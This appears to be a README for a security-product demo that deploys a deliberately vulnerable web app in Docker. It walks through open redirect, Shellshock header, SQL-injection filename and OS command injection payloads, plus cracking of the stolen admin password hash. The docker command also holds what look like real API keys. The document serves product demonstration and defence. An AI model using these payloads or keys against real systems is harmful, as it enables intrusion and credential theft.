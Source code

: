 # Cloud One App Protect Demo
## Requirements
Computer running docker;
Cloud One App Protect Account

## Instructions to Deploy the Vulnerable Application (It can be deployed on AWS ECS as well)
In the computer where you are running Docker;

docker run --rm -d -p 80:8000 --name demo-cloudone-appprotect -e TREND_AP_KEY=2ce66f11-5028-4a50-8b8f-5b59a3ae82f7 -e TREND_AP_SECRET=fe6f14ad-72ce-4cf5-8373-a8a6322d09ac andrefernandes86/demo-cloudone-appprotect:latest

## Testing the Vulnerable Application
http://target-ip/

## Checking the Cloud One Management Console (Policies and Logs)
https://cloudone.trendmicro.com

## Attacking the Vulnerable Application
##### Open Redirect Vulnerability
###### http://target-ip/taskManager/logout?redirect=http://www.cnn.com 

##### Malicious Payload (Intrusion Prevention)
###### curl -H "User-Agent: () { :; }; /bin/eject" http://target-ip 

##### Remote Command Execution
###### 1. Go to http://127.0.0.1:8000/ and click "Login"
###### 2. Login to the application
###### user / user123
###### 3. Click the link for the "demo project".
###### 4. Click the "Add files" link.
###### 5. Pick any file from your local computer, and use the following payload for the filename:
###### '||(SELECT password FROM auth_user WHERE username='admin')||'

Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

https://md5decrypt.net/en/

##### OS Command Injection:
###### In the same place as in for the attack above ("My Projects" --> project you created, add files). Also pick any file from your local computer, but for the payload use:
###### An innocent sleep statement (to demonstrate that we can run any command):
###### some_file_name; sleep 1m

You'll notice that (without Cloud One Application Security), the browser will "sleep" for 1 minute.
.
